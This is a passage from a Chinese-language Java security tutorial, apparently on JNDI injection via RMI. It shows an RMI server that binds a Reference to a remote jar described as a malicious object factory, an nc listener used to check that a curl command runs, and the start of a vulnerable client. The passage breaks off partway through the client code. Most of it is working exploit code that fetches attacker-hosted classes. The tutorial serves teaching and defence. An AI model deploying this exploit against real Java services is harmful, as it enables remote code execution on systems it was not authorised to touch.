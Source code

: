 ```java
 * Date: 2019/12/25
 */
public class RMIReferenceServerTest {

   public static void main(String[] args) {
      try {
         // 定义一个远程的jar，jar中包含一个恶意攻击的对象的工厂类
         String url = "http://p2j.cn/tools/jndi-test.jar";

         // 对象的工厂类名
         String className = "com.anbai.sec.jndi.injection.ReferenceObjectFactory";

         // 监听RMI服务端口
         LocateRegistry.createRegistry(RMI_PORT);

         // 创建一个远程的JNDI对象工厂类的引用对象
         Reference reference = new Reference(className, className, url);

         // 转换为RMI引用对象
         ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);

         // 绑定一个恶意的Remote对象到RMI服务
         Naming.bind(RMI_NAME, referenceWrapper);

         System.out.println("RMI服务启动成功,服务地址:" + RMI_NAME);
      } catch (Exception e) {
         e.printStackTrace();
      }
   }

}
```

程序运行结果：

```
RMI服务启动成功,服务地址:rmi://127.0.0.1:9527/test
```

启动完`RMIReferenceServerTest`后在本地监听`9000`端口测试客户端调用`RMI`方法后是否执行了`curl localhost:9000`命令。

**使用nc监听端口：**

```bash
nc -vv -l 9000
```

**RMI客户端代码：**

```java
package com.anbai.sec.jndi.injection;

import javax.naming.InitialContext;
import javax.naming.NamingException;

import static com.anbai.sec.rmi.RMIServerTest.RMI_NAME;

/**
 * Creator: yz
 * Date: 2019/12/25
 */
public class RMIReferenceClientTest {

   public static void main(String[] args) {
      try {
//       // 测试时如果需要允许调用RMI远程引用对象加载请取消如下注释
//       System.setProperty("java.rmi.server.useCodebaseOnly", "false");
```